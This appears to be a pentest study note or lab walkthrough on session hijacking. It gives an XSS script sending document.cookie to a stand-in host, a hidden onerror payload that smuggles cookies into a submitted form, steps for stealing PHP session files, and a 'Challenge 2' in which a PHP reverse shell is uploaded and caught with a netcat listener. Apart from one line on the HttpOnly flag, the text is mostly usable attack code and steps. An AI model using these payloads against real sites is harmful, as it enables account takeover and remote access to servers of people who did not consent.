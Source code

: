 Session Hijacking refers to the **exploitation of a valid session assigned to a user**. The attacker can get the victim’s session identifier using a few different methods, though typically an XSS is used.

A Session Hijack attack can happen by:

![session hijacking](images/sess-hijacking.png)

<br/>

# Example

The application does not properly sanitize the input in the comment field. So, the attacker can insert the malicious payload here:

![session hijacking example](images/sess-hijacking2.png)

![session hijacking example result](images/sess-hijacking3.png)

By using the following script, we will be able to steal the users cookies.

    <script>
     var i=new Image();
     i.src="http://attacker.site/steal.php?q="%2bdocument.cookie;
    </script>

cookie needs to be accessbile by javascript for this to work, and preventing it solves the problem.(HTTPOnly flag set to true)

<br/>

# Packet sniffing

You can also use wireshark if you are on the same network to sniff the session value.

![packet sniffing](images/packet-sniff.png)

<br/>

# Access the web server

Session data will be stored within the folder specified by the php.ini entry **session.save_path**. The attacker will focus on files names **sess_&lt;sessionID>**

In a real-world example, we could find the following entries:

    sess_ta9i1kqska407387itjfl57624

    sess_7o4l0kk5btl4e4qlok8r26tn12

If you want to hijack the user session related to the first entry,install a new cookie in your web browser using these values:

    cookie name: PHPSESSID
    cookie value: ta9i1kqska407387itjfl57624

The attack is very simple; however, it is critical that the attacker
can access the web server file system.

<br/>

### ASP.NET can store session data in three different locations:

![asp.net session](images/asp.png)

<br/>

# Payloads

    <div="display: none;"> 
    <img src="fgfdgNotExistent" onerror="document.getElementById('form').onsubmit=function () {
    var hidden='<span=\'display:none;\'>'+document.cookie+'</span>'; 
    document.getElementById('message').value+=hidden;}"/>
    </div>

![payload-example](images/payload-1.png)

Create a hidden div below the actual message

    <div="display: none;">

This div will contain the actual payload and is used to hide the image.

Create an image with a non-existent path. This will trigger an error (because the image cannot be found), caught by the onerror event, that contains the actual payload

    <img src="fgfdgNotExistent" onerror=[PAYLOAD]

The payload will simply create a hidden span that will contain the document.cookie object value. This span will be appended to the object with ID being message. This object happens to be the Textarea form element that the victim will have to submit.

once the user submits the form, the cookie will be stored in the hidden span

![payload-example-2](images/payload-2.png)

![payload-example-3](images/payload-3.jpg)

<br/>

# Challenge 2 reverse shell



Find a script for reverse shell based on languange (php, python, ruby, perl, bash, etc) for this example we will use **PHP**.

Copy the script to a file and upload it to the server.(name it shell.php)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Change the ip and port to your own 

Type in the cmd **ifconfig** to find the ip address connected to the server/network. If the ip is 10.100.13.200 then change the **IP** in the script file to it.

    IP  : 10.100.13.200

    Port : 1234

Go to this link for the tutorial

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

After uploading the script click on it in the browser and then type in the cmd **nc -nvlp 1234** to listen for the reverse shell. 

    nc -nvlp 1234

In the command line from the shell type this command to find the session_save_path:

    php -r 'echo session_save_path(), "\n";' 

Finally you can check the directory with **ls** and print the content with **cat**.

    ls 
    cat [file name]
